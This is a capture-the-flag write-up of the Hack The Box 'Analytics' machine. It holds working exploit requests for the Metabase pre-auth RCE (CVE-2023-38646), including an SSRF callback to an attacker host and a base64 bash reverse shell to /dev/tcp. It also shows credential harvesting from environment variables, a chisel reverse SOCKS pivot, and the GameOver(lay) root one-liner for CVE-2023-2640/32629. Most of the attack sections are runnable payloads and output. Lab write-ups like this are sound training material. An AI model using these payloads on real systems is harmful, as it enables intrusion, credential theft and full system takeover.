*Nmap scan*:

```shell
# Nmap 7.94SVN scan initiated Thu Jan 25 14:02:41 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.048s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```

```shell
# Nmap 7.94SVN scan initiated Thu Jan 25 14:03:51 2024 as: nmap -p80, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.091s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The webapp on port 80 does a redirect to "analytical.htb" domain; it is added to the hosts file.


The page shows the members of a team:
- Jonnhy Smith, Chief Data Officer
- Alex Kirigo, Data Engineer
- Daniel Walker, Data Analyst



From the fuzzing of VHOSTs, the "data" subdomain is identified.



A login with Metabase is identified.



Googling Metabase reveals that such a service is vulnerable to an unauthenticated RCE: CVE 2023-38646. This blogpost was followed as a reference: [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/). 

The exploit, first, requires retrieving a valid token. The token can be obtained via an unauthenticated request to the "/api/session/properties" endpoint ("setup-token" property from response)



It is possible to perform SSRF using the following POC:

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json

{
    "token": "<SETUP_TOKEN_VALUE>",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER IAMPWNED BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\nnew java.net.URL('http://<IP_ATTACKER>/pwn134').openConnection().getContentLength()\n$$--=x\\;",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

SSRF via RCE is verified.

```shell
$ ifconfig tun0 | grep inet && python3 -m http.server 80
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::ad6f:f81d:6923:2e82  prefixlen 64  scopeid 0x20<link>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.233 - - [25/Jan/2024 14:44:56] code 404, message File not found
10.10.11.233 - - [25/Jan/2024 14:44:56] "GET /pwn134 HTTP/1.1" 404 -
```

Now the goal is to get a shell. The following POC was used.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 772

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,<REVERSE_SHELL_PAYLOAD_BASE64>}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The payload needed to obtain a reverse shell should be encoded in base64 as of the following:

```shell
$ echo -n 'bash -i >& /dev/tcp/10.10.14.27/80 0>&1' | base64   
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx
```



The reverse shell is correctly received.

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::ad6f:f81d:6923:2e82  prefixlen 64  scopeid 0x20<link>
listening on [any] 80 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.233] 51984
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
4b5c316e905f:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
4b5c316e905f:/$ hostname
hostname
4b5c316e905f
```

Two files are unusual in the root directory: ".dockerenv" and "metabase.db". Probably the resulting shell is inside a Docker container.

it is evident that one is inside a container.

```shell
4b5c316e905f:/$ COLUMNS=1000 ps aux
PID   USER     TIME  COMMAND
    1 metabase  2:10 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
  144 metabase  0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx}|{base64,-d}|{bash,-i}
  147 metabase  0:00 bash -i
  148 metabase  0:00 bash -i
  164 metabase  0:00 ps aux
```

Regarding breakout from a Docker container there is a very valuable blogpost available at: [https://juggernaut-sec.com/docker-breakout-lpe/](https://juggernaut-sec.com/docker-breakout-lpe/). It is confirmed in the blogpost that the presence of the ".dockerenv" file indicates that you are inside a container. The second aspect to check is whether it is a privileged container or not.

```shell
4b5c316e905f:/tmp$ cat /proc/1/status | grep -i "seccomp"
Seccomp:        2
Seccomp_filters:        1
```

From the output of the previous command you can see that this is an unprivileged container. In the blogpost it is specified that *linpeas* is able to detect a lot of useful information about the environment.

*linpeas* detects that "/proc" is mounted on the machine and emphasizes it in yellow.



After much research, it does not seem to be possible to escape from the container.

Credentials are identified among the machine's environment variables.

```shell
4b5c316e905f:/$ env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=4b5c316e905f
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```

Specifically:
- `META_USER=metalytics`
- `META_PASS=An4lytics_ds20223#`

These credentials allow login access to the metabase application.



From the webapp there does not seem to be any useful information to make escape from the container. It goes back to enumerating the machine.

From the shell on the machine, gathering the network information, you can see that you have an IP address of 172.17.0.2.

```shell
4b5c316e905f:/$ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:120771 errors:0 dropped:0 overruns:0 frame:0
          TX packets:151473 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:36754593 (35.0 MiB)  TX bytes:322702469 (307.7 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:254 errors:0 dropped:0 overruns:0 frame:0
          TX packets:254 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:22276 (21.7 KiB)  TX bytes:22276 (21.7 KiB)
```

One could enumerate the Docker network in order to identify other hosts present. It could be inferred from the network information that the gateway IP address is present at 172.17.0.1.

The host with an IP address of 172.17.0.1 appears to be present.

```shell
4b5c316e905f:/$ ping -c3 172.17.0.1
PING 172.17.0.1 (172.17.0.1): 56 data bytes
64 bytes from 172.17.0.1: seq=0 ttl=42 time=0.092 ms
64 bytes from 172.17.0.1: seq=1 ttl=42 time=0.107 ms
64 bytes from 172.17.0.1: seq=2 ttl=42 time=0.108 ms

--- 172.17.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.092/0.102/0.108 ms
```

In order for it to be possible to do scans of the hosts on the internal Docker network, it is considered necessary to setup a Reverse Socks proxy with chisel. In order for it to be possible to do scans of the hosts on the internal Docker network, it is considered necessary to setup a Reverse Socks proxy with chisel:

```shell
$ ./chisel_1.9.1_linux_amd64 server -p 8001 --reverse
2024/01/26 09:14:26 server: Reverse tunnelling enabled
2024/01/26 09:14:26 server: Fingerprint lXU+T5ddJSGaG/wwKwralwZoFDA+rYFMUTgsgrRTRf0=
2024/01/26 09:14:26 server: Listening on http://0.0.0.0:8001
```

After transferring the chisel track to the container, the setup is completed like this.

```shell
4b5c316e905f:/tmp$ ./chisel_1.9.1_linux_amd64 client 10.10.14.27:8001 R:1050:socks
2024/01/26 08:19:56 client: Connecting to ws://10.10.14.27:8001
2024/01/26 08:19:56 client: Connected (Latency 41.9886ms)
```

In the attacking machine, the setup is completed by specifying the use of proxy on port 1050 with proxychains.

```shell
$ echo 'socks5 127.0.0.1 1050' | sudo tee -a /etc/proxychains4.conf
socks5 127.0.0.1 1050
```

Let's test the proxy by doing an nmap scan of the host 172.17.0.1 identified earlier.

```shell
$ proxychains -q nmap -sT 172.17.0.1 -v
[...]
Nmap scan report for 172.17.0.1
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The host 172.17.0.1 seems to expose two ports: the 22 and the 80. On port 80 there seems to be the same application as seen before.

```shell
$ proxychains -q curl 172.17.0.1:80 -v 
*   Trying 172.17.0.1:80...
* Connected to 172.17.0.1 (127.0.0.1) port 80
> GET / HTTP/1.1
> Host: 172.17.0.1
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.18.0 (Ubuntu)
< Date: Fri, 26 Jan 2024 08:26:32 GMT
< Content-Type: text/html
< Content-Length: 154
< Connection: keep-alive
< Location: http://analytical.htb/
< 
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
* Connection #0 to host 172.17.0.1 left intact
```

Through the proxy, we attempt to SSH access 172.17.0.1 using user and password identified in the container environment variables, namely "META_USER" and "META_PASS".



I am IN!

***local.txt***: 5df0baafcea963a24357e5c2116855b6



Begin the privesc phase. Regarding running processes, there is a very strange aspect: there is only systemd.

```shell
metalytics@analytics:/tmp$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
metalyt+    1334  0.0  0.2  17092  9728 ?        Ss   14:03   0:00 /lib/systemd/systemd --user
metalyt+    1423  0.0  0.1   8784  5504 pts/0    Ss   14:03   0:00 -bash
metalyt+  317156  0.0  0.0  10332  3712 pts/0    R+   15:00   0:00 ps -aux
```

After hours to stuck, i decided to read a hint from HTB forum.



Check kernel version and googling.

```shell
metalytics@analytics:/tmp/test$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
metalytics@analytics:/tmp/test$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.3 LTS"
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```



From a link to reddit, vulnerabilities CVE-2023-2640 and CVE-2023-32629 are discovered. A POC for vulnerability is available at: [https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

```shell
metalytics@analytics:/$ cd /tmp/
metalytics@analytics:/tmp$ mkdir poc
metalytics@analytics:/tmp$ cd poc/
metalytics@analytics:/tmp/poc$ whoami
metalytics
metalytics@analytics:/tmp/poc$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
root@analytics:/tmp/poc# whoami
root
```

Simply root.

***root.txt***: 8c3d2bbacb949da289706c99e44d7534


